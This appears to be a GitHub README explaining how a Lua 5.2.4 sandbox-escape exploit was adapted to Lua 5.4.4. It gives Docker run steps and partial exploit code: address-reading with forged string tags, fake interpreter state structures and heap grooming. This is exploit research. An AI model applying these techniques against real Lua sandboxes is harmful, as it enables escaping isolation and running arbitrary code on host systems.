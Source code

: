 # lua-5.4.4-sandbox-escape

It is an exploit and Docker created by applying the sandbox escape exploit code that existed in the previous version 5.2.4 to version 5.4.4.


## Create docker image

```sh
docker build --tag lua-5.4.4-escape/x64:latest x64
```
## How to run

```sh
docker run -it lua-5.4.4-escape/x64:latest /bin/bash
```

## Exploit

```sh
/LUA/lua/lua /LUA/exploit.lua
```



## What has changed from version 5.2.4 sandbox escaping exploit code?

- TString

    `v5.2.4 Lua TString`
    ```c++
    /*
    ** Header for string value; string bytes follow the end of this structure
    */
    typedef union TString {
      L_Umaxalign dummy;  /* ensures maximum alignment for strings */
      struct {
        CommonHeader;
        lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
        unsigned int hash;
        size_t len;  /* number of characters in string */
      } tsv;
    } TString;
    ```


    `v5.4.4 Lua TString`
    ```c++
    /*
    ** Header for a string value.
    */
    typedef struct TString {
      CommonHeader;
      lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
      lu_byte shrlen;  /* length for short strings */
      unsigned int hash;
      union {
        size_t lnglen;  /* length for long strings */
        struct TString *hnext;  /* linked list for hash table */
      } u;
      char contents[1];
    } TString;
    ```

    Moving from 5.2.4 to 5.4.4, you can see that the variable handling the length of TString is managed by dividing it into shrlen and lnglen.

- OP_LEN code

    `v5.2.4 Lua OP_LEN code`
    ```c++

    void luaV_execute (lua_State *L) {
    /*skipped*/
    vmcase(OP_LEN,
            Protect(luaV_objlen(L, ra, RB(i)));
          )
    /*skipped*/
    }


    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypenv(rb)) {
    /*skipped*/
        case LUA_TSTRING: {
          setnvalue(ra, cast_num(tsvalue(rb)->len));
          return;
        }
    /*skipped*/
    
      }
      callTM(L, tm, rb, rb, ra, 1);
    }
    
    #define LUA_TSTRING     4
    
    
    ```


    `v5.4.4 Lua OP_LEN code`
    ```c++
    void luaV_execute (lua_State *L, CallInfo *ci) {
    /*skipped*/
        vmcase(OP_LEN) {
                Protect(luaV_objlen(L, ra, vRB(i)));
                vmbreak;
              }
    /*skipped*/
    }
    
    /*
    ** Main operation 'ra = #rb'.
    */
    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypetag(rb)) {
    /*skipped*/
        case LUA_VSHRSTR: {
          setivalue(s2v(ra), tsvalue(rb)->shrlen);
          return;
        }
        case LUA_VLNGSTR: {
          setivalue(s2v(ra), tsvalue(rb)->u.lnglen);
          return;
        }
    /*skipped*/
    
      }
      luaT_callTMres(L, tm, rb, rb, ra);
    }
    
    /* Variant tags for strings */
    #define LUA_TSTRING     4
    #define LUA_VSHRSTR makevariant(LUA_TSTRING, 0)  /* short strings */
    #define LUA_VLNGSTR makevariant(LUA_TSTRING, 1)  /* long strings */
    ```
    
    As the length of TString is treated as shrlen and lnglen, the behavior of OP_LEN for strings has also changed, so tag must be set to LUA_VLNGSTR.
    
    
    ```lua
    local function readAddr(addr)
        collectgarbage()
    -- skipped
        local _addr = numTo64L(addr - 16)
        local padding_a = string.rep('\65', 8) -- 0x41 padding
        local padding_b = string.rep('\20', 15) -- LUA_VLNGSTR tag padding
    -- skipped
    
    ```



- Addition OP_LOADI code

    Looking at the foo function that exists in the existing code, an integer value is put into the a variable. In version 5.2.4, the LOADK command is used to do this. However, since version 5.4.4 uses the LOADI command to handle integer assignment, it was possible to induce the use of the LOADK command by changing the integer assignment to a string assignment.
    
    `v5.2.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a=1 a=2 a=3
        return (#a)
    end
    ```
    
    
    `v5.4.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a="a" a="b" a="c" 
        return (#a)
    end
    ```

- Changing size of global_State, lua_State structure

    When running the existing exploit, to create fake global_State and fake lua_State, a string is created as much as the size of the structure. At this time, the size of the structure changes and this is reflected.
    
    ```lua
        local l_G_addr = readAddr(readAddr(t_addr) + 0x18)
    
        l_G = memcpy(l_G_addr, 1416) -- sizeof(global_State)=1416
        l_G = numTo64L(addr) .. numTo64L(arg) .. l_G:sub(17)
        l_G_addr = bufferAddress(l_G)
    
    
        local t_buffer = memcpy(t_addr, 200) -- sizeof(lua_State)=200
    ```


- Cleaning tcache bins (Ubuntu glibc ptmalloc)

    In the luaM_newvectorchekced function, the malloc function is called and the chunk of variable k is allocated. At this time, if the tcache bin is full, the desired chunk is not allocated and the exploit fails. Because of this, we allocate a variable and empty the chunk that exists in the tcache bin.
    
    ```lua
        -- clean tcache bins
    
        local t1 = {}
        local t2 = {}
        local t3 = {}
        local t4 = {}
        local t5 = {}
        local t6 = {}
        local t7 = {}
    
    
        local intermid = {}
    
        collectgarbage()
        intermid = nil
        k=nil
        collectgarbage()
    
        g, err = load(g)
        g() 
    ```





## Reference
    [https://github.com/erezto/lua-sandbox-escape](https://github.com/erezto/lua-sandbox-escape)


    